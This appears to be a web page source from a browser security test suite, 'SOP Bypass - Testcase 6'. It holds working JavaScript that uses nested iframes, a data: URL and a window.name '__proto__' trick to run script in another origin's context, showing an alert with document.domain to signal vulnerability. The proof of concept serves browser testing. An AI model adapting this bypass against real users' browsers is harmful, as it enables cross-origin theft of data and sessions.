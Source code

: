 ```yaml
---
layout: default
title: SOP Bypass - Testcase 6
permalink: /sop/new/6
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="sop()">
<script>
function sop() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831120255/http://www.bing.com";
    frame.onload = function() {
        frame.onload = null;
        frame.contentWindow[0].location = "data:text/html,<script>" + function() {
            window.name = "__proto__";
            parent.__proto__.alert.constructor("alert(document.domain)")();
        } + ")()</script>";
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
